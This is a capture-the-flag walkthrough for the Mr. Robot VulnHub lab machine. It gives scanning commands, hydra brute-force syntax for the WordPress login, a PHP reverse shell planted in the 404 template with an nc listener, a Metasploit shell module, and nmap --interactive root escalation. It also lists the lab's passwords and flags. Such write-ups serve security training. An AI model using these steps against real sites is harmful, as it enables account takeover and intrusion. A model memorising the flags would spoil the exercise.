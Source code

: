 Project 1.0


Overview

The Mr. Robot vulnerable machine has three keys hidden in different locations. The goal is to find all three. Each key is progressively difficult to find.

github.com/besoben/project01 has a .docx file which contains screen shots of every step. Please enjoy.


Operating Systems used:

Kali Linux

https://www.kali.org/get-kali/

Mr. Robot:1 VulnHub

https://www.vulnhub.com/entry/mr-robot-1,151/


Tools/Commands used:

nmap

version 7.93

Nmap is a network scanner created by Gordon Lyon. Nmap is used to discover hosts and services on a computer network by sending packets and analyzing     the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection


nikto
version 2.1.6
Nikto is a free software command-line vulnerability scanner that scans webservers for dangerous files/CGIs, outdated server software and other           problems. It performs generic and server type specific checks. It also captures and prints any cookies received

gobuster
Gobuster is a tool used to brute-force:  URIs (directories and files) in web sites,  DNS subdomains (with wildcard support), Virtual Host names on       target web servers, Open Amazon S3 buckets, Open Google Cloud buckets, TFTP servers..

dirbuster
version OWASP DirBuster 1.0-RC1
DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. Often is the case now     of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within. DirBuster attempts     to find these.

wpscan
version 3.8.22
The WPScan CLI tool is a free, for non-commercial use, black box WordPress security scanner written for security professionals and blog maintainers to   test the security of their sites. The WPScan CLI tool uses a database of 38,431 WordPress vulnerabilities.

metasploit
version 6.2.36
The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS   signature development. It is owned by Boston, Massachusetts-based security company Rapid7

burpsuite
version 2022.12.5
Burp Suite is an integrated platform and graphical tool for performing security testing of web applications, it supports the entire testing         process, from initial mapping and analysis of an application's attack surface, through to finding and exploiting security vulnerabilities.

hydra
version 9.4
Hydra is a pre-installed tool in Kali Linux used to brute-force usernames and passwords to different services such as FTP, ssh, telnet, MS SQL,         etc. Brute force can be used to try different usernames and passwords against a target to identify the correct credentials.

net cat
version 1.10-47
The Netcat ( nc ) command is a command-line utility for reading and writing data between two computer networks The communication happens using           either TCP or UDP. The command differs depending on the system ( netcat , nc , ncat , and others).
	

Walk through:

Footprinting and enumeration:

whoami
	notes user

ip address 
	notes system ip

sudo -i
	super user/ root interactive

nmap -O [ipadress/range]
	scans range of ip addresses and lists operating system 

arping -h [ipaddress/range]
	this pings the arp network to map local network

nikto -h [target-ipaddress]
	vulnerbility scanner, set host [ip]

gobuster dir -u [target-url/ipaddress] -w [/usr/share/wordlist/dirbuster/directory-list.2.3-small.txt]
dictionary attack, against url searching for hidden directories

DirBuster application w report generation
target url, wordlist, don't be recursive (unneeded in this), File extension "php, txt"

Physically explored the website, url input, triggered 404, accessed wp-login, robots.

FIRST FLAG FOUND, [target-ipaddress/robots] > [target0ipaddress/flag-1-of-3.txt] and [target-ipaddress/fsocity.dic]

download [fsocity.dic]

cat head [fsocity.dic]
	to see what the first few lines of text were
wc [fsocity.dic]
	word count, it's huge [that's what she said]
cat [fsocity.dic] | sort -U  > [sorted_fsocity.dic]  
	sorts all unique into a seperate file
wc [sorted_fsocity.dic]
	word count, significantly lower

wpscan [target-ipaddress]
	find information partaining to word press

Burp Suite
used integrated browser proxy, intercepted the login action on the wp-login page.
shows that it's a post form(top), log=username and pwd=password(bottom)

Brute force for username and password: 

hydra -L [sorted_fsocity.dic] -p unkown [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=Invalid Username
	-L list file upload
	-p unkown sets the password as uknown 
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=Invalid Username sets fail point that is referenced in the error message when a wrong username is entered

USERNAME IS ELLIOT
Option 1:
hydra -l elliot -P [sorted_fsociety.dic]  [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=is incorrect'
	-l elliot, lower case to indicate exact user
	-P password file
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=is incorrect sets fail point that is referenced in the error message when a wrong password is entered	
Option 2:
wpscan -u elliot -P [sorted_fsociet.dic]
	-u sets user as elliot, and -P sets password lists. syntax is easier, but enumeration on user id's is limited, so you must have a user id if unique user. It will check against admin etc. wpscan

[wp-username] = elliot 
[wp-pasword] = ER28-0652

Now we can log into wordpress. 

Forward Facing Application Leverage and generate damion shell:
Option #1
Log into wordpress application
Applications>edit>Edit 404 page template
Reverse Shell on the 404 page
	php reverse shell code: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
	php reverse shell, changed [attacker-ipaddress]/[port]

nc -lvnp 443
	net cat -listen, verbose, skip dns lookup, port [port]

Go back to the website, and place an incorrect url to trigger the 404 page, which in turns activates the reverse shell. 
WE ARE IN THE TERMINAL 
now in bin/sh$

Option #2
metasploit
	msfconsole
	search wordpress shell
	use 1
	show options
	set username [wp-username]
	set password  [wp-password]
	set rhost [targetip]
	exploit
	ERROR
	advanced options
	set wpcheck false
	exploit
	shell 

gain terminal access
whoami
group id
pwd
ls
cd /home 
ls
cd /robot
ls

SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user
su robot, you get an error stating you need to be in a terminal

Lateral Movement, New Shell, New User Owned:

python -c 'import pty;pty.spawn("/bin/bash")'
spawns a terminal
su robot with the password [abcdefghijklmnopqestuvwxyz]
cd /robots
ls
cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
find / -perm -4000 -type f 2>/dev/null
	finds files that being ran by their owner
nmap --version
research time -- it's vulnerable! 

Root escallation: 

nmap --interactive
nmap !sudo /bin/bash
exit
nmap !sh
cd /root
ls
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
